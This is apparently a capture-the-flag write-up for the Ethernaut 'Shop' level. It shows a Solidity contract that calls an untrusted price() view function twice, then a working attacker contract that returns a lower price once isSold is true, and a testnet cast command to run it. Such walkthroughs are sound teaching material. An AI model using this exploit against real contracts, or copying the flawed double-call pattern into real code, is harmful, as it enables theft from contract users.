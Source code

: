 ```yaml
---
title: "Shop"
tags: ["View Function"]
reference: https://ethernaut.openzeppelin.com/level/21
---
```


## Description

Сan you get the item from the shop for less than the price asked?

Things that might help:

- Shop expects to be used from a Buyer
- Understanding restrictions of view functions

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```

## Solution

1. the core idea of the attack is the `price()` function return based on the external smart contract function `isSold()` because the second call of `price()` is after `isSold = true`

> View function cannot guareente no state modification outside the view function call chain.

```sol
if (_buyer.price() >= price && !isSold) {
    isSold = true;
    price = _buyer.price();
}
```

2. Implement the attack contract

```sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface IShop {
    
    function isSold() external view returns (bool);
    function buy() external;
}

contract Buyer {
    address shop;

    function price() external view returns (uint256) {
        return IShop(shop).isSold() ? 2 : 10000;
    }

    function buyFromShop(address _shop) public {
        shop = _shop;
        IShop(shop).buy();
    }
}
```

3. call `buyFromShop()` function

```
cast send 0x7cE8345037e4e00500FBe1830731A8D1A63AFb7d "buyFromShop(address)" 0xa19fcbDb456EcD51ef96832870fc13A373274356 --r
pc-url $BASE_SEPOLIA_RPC --private-key
```
